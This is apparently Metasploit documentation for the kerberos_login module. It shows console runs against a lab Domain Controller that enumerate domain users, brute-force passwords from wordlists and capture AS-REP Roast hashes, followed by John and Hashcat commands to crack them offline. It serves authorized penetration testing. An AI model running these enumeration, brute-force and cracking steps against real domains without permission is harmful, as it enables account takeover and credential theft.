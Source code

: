 ## Vulnerable Application

This module will test Kerberos logins on a range of machines and
report successful logins.  If you have loaded a database plugin
and connected to a database this module will record successful
logins and hosts so you can track your access.

Kerberos accounts which do not require pre-authentication will
have the TGT logged, this technique is known as AS-REP Roasting.

It is also able to identify whether user accounts are enabled or disabled/locked out.

## Verification Steps

When verifying the module in the listed examples, it is recommended to test the following accounts:

- Valid account
- Invalid account
- Locked/Disabled account
- Account with spaces
- AS-REP Roastable accounts

## Target

To use kerberos_login, make sure you are able to connect to the
Kerberos service on a Domain Controller.

## Scenarios

### Creating a single Kerberos ticket (TGT)

To create a single Kerberos ticket (TGT), set the username and password options:

```
msf6 auxiliary(scanner/kerberos/kerberos_login) > run rhost=192.168.123.133 domain=DEMO.local username=basic_user password=password verbose=true
[*] Using domain: DEMO.LOCAL - 192.168.123.133:88   ...
[+] 192.168.123.133 - User found: "basic_user" with password password. Hash: $krb5asrep$23$basic_user@DEMO.LOCAL:96d685b85a51e26dbc762c4aa7754d77$ded0e24ef0cef8ffa214cb9c9667ae90d80def77f91c3297be549aab9f4a1235997f3dd8dd70a970838085f94dcb4ec3620232e8c6fc9b192626cc18638f6909dbd582a59e096eb933f9796f869334c1f3bb1440d93484b1870eb626aa6a57801e7a950b6b9839a49f290487e21f5524958006ceb30dad63e88441fb7e49d7b1d81213b022c5b664cf6b93f8f60f0d074a32c11b75878431949dd3d75bcf824f154ef5d6e25036175524a7fac08df5f4be9720ce323dd92973ea3cd8566b85fa57293d15583b0382a587ca660696a85430fa06019d5e42f6650f14c6b74bfdb7450a74045f233a
[*] Auxiliary module execution completed
```

### Auth Brute

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user
accounts and additionally bruteforcing passwords:

Create a new `./users.txt` file and `./wordlist.txt`, then run the module:

```
msf6 auxiliary(gather/kerberos_enumusers) > rerun rhost=192.168.123.133 domain=DEMO.local user_file=./users.txt pass_file=./wordlist.txt verbose=true
[*] Reloading module...

[*] Using domain: DEMO.LOCAL - 192.168.123.133:88   ...
[+] 192.168.123.133 - User: "basic_user" is present
[*] 192.168.123.133 - User: "basic_user" wrong password invalid2
[*] 192.168.123.133 - User: "basic_user" wrong password p4$$w0rd
[*] 192.168.123.133 - User: "basic_user" wrong password test_password
[+] 192.168.123.133 - User found: "basic_user" with password password. Hash: $krb5asrep$23$basic_user@DEMO.LOCAL:959b983f9cffc093002d9cd8a20...etc...
[*] 192.168.123.133 - User: "foo" user not found
[*] 192.168.123.133 - User: "foo_bar" user not found
[+] 192.168.123.133 - User: "Administrator" is present
[*] 192.168.123.133 - User: "Administrator" wrong password invalid2
[*] 192.168.123.133 - User: "Administrator" wrong password p4$$w0rd
[*] 192.168.123.133 - User: "Administrator" wrong password test_password
[*] 192.168.123.133 - User: "Administrator" wrong password password
[+] 192.168.123.133 - User: "no_pre_auth" does not require preauthentication. Hash: $krb5asrep$23$no_pre_auth@DEMO.LOCAL:a714f0553589cbd78...etc...
[+] 192.168.123.133 - User: "admin" is present
[*] 192.168.123.133 - User: "admin" wrong password invalid2
[*] 192.168.123.133 - User: "admin" - Kerberos Error - KDC_ERR_KEY_EXPIRED (23) - Password has expired - change password to reset
[*] 192.168.123.133 - User: "admin" wrong password test_password
[*] 192.168.123.133 - User: "admin" wrong password password
[*] Auxiliary module execution completed
```

### ASREPRoast Cracking

Accounts that have `Do not require Kerberos preauthentication` enabled, will receive an ASREP response with a ticket present.
The technique of cracking this token offline is called ASREPRoasting.

Cracking ASREP response with John:

```
john ./hashes.txt --wordlist=./wordlist.txt --format:krb5asrep
```

Cracking ASREP response with Hashcat:

```
hashcat -m 18200 -a 0 ./hashes.txt ./wordlist.txt
```

You can see previously creds with:

```
creds -v
```

## Options

The `kerberos_login` module only requires the `RHOST`, `DOMAIN` and
`USER_FILE` options to run.

**The DOMAIN option**

This option is used to specify the target domain. If the domain name is
incorrect an error is returned and domain user account enumeration will fail.

An example of setting DOMAIN:

```
set DOMAIN [domain name]
```

**The USER_FILE option**

This option is used to specify the file containing a list of user names
to query the Domain Controller to identify if they exist in the target domain
or not. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

**The PASS_FILE option**

If you happen to manage all the found passwords in a separate file, then this option would be
suitable for that. One per line.

```
set PASS_FILE [path to file]
```

**The USERPASS_FILE option**

If each user should be using a specific password in your file, then you can use this option. One
username/password per line:

```
set USERPASS_FILE [path to file]
```

**The DB_ALL_CREDS option**

This option allows you to reuse all the user names and passwords collected by the database:

```
set DB_ALL_CREDS true
```

**The DB_ALL_PASS option**

This option allows you to reuse all the passwords collected by the database.

```
set DB_ALL_PASS true
```

**The DB_ALL_USERS option**

This option allows you to reuse all the user names collected by the database.

```
set DB_ALL_USERS true
```

**The Timeout option**

This option is used to specify the TCP timeout i.e. the time to wait
before a connection to the Domain Controller is established and data read.

An example of setting Timeout:

```
set Timeout [value in seconds]
```

